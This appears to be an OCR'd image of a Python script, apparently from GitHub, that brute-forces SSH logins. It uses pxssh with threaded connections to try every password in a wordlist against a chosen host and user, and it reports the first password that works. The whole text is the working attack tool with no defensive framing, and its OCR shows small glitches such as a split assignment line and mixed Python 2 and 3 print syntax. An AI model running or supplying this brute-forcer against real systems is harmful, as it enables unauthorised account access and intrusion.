 ```py
# coding=UTF-8
import pxssh
import optparse
import time
import threading
maxConnections = 5
connection_lock =
threading.BoundedSemaphore(value=maxConnections)
Found = False
Fails = 0
def connect(host, user, password, release):
    global Found, Fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print('[+] Password Found: ' + password)
        Found = True
    except Exception as e:
        if 'read_nonblocking' in str(e):
            Fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif 'synchronize with original prompt' in str(e):
            time.sleep(1)
            connect(host, user, password, False)
    finally:
        if release:
            connection_lock.release()
def main():
    parser = optparse.OptionParser('usage%prog '+'-H<target host> -u <user> -f <password list>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify password file')
    parser.add_option('-u', dest='user', type='string', help='specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passwdFile = options.passwdFile
    user = options.user
    if host == None or passwdFile == None or user == None:
        print(parser.usage)
        exit(0)
    fn = open(passwdFile, 'r')
    for line in fn.readlines():
        if Found:
            print "[*] Exiting: Password Found"
            exit(0)
        if Fails > 5:
            print "[!] Exiting: Too Many Socket Timeouts"
            exit(0)
        connection_lock.acquire()
        password = line.strip('\r').strip('\n')
        print("[-] Testing: " + str(password))
        t = threading.Thread(target=connect, args=(host, user, password, True))
        t.start()
if __name__ == '__main__':
    main() 
```
